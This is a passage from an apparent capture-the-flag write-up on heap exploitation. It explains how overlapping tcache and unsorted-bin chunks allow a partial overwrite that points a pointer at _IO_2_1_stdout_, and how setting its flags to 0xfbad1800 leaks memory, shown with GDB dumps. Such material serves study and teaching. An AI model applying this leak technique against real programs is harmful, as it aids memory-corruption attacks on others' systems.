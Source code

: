 Doing that so, we get the `_IO_2_1_stdout_` address populated to the `heap_chunks` global array at the index `3`, this happened because when we allocated the chunk of size `0x4f0` that made the all the chunks which we `free`'d belonging to the `tcache` bin as they overlapped into the `unsorted` bin result in the `free`'d chunks also being populated with the `main_arena` address. So, when we allocate a chunk of size `0x90` will be given from the `unsorted` bin, from the overlapped region, hence we could overwrite the last 4 bits of the address and made it point to the `_IO_2_1_stdout_`:-

```asm
gef➤  x/10xg 0x56431531d050
0x56431531d050:	0x0000000000000000	0x0000000000000000
0x56431531d060:	0x0000564316c8f260	0x0000564316c8f760
0x56431531d070:	0x0000564316c8f7d0	0x0000564316c8f760
0x56431531d080:	0x00007fa0293a0760	0x0000564316c8fd30
0x56431531d090:	0x0000000000000000	0x0000000000000000
gef➤  p &_IO_2_1_stdout_ 
$51 = (struct _IO_FILE_plus *) 0x7fa0293a0760 <_IO_2_1_stdout_>
```

Now, what we will do here is make the `flag` to be `0xfbad1800` and the associating member of the `struct` to be of the NULL, hence resulting in the next `puts` call, which will call the `_IO_new_file_xsputn` hence, giving a huge buffer dump:-

```asm
gef➤  p _IO_2_1_stdout_ 
$52 = {
  file = {
    _flags = 0xfbad1800, 
    _IO_read_ptr = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7fa0293a07e4 <_IO_2_1_stdout_+132> "", 
    _IO_buf_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = 0x7fa0293a07e4 <_IO_2_1_stdout_+132> "", 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7fa02939fa00 <_IO_2_1_stdin_>, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "\n", 
    _lock = 0x7fa0293a18c0 <_IO_stdfile_1_lock>, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7fa02939f8c0 <_IO_wide_data_1>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x7fa02939c2a0 <_IO_file_jumps>
}
```
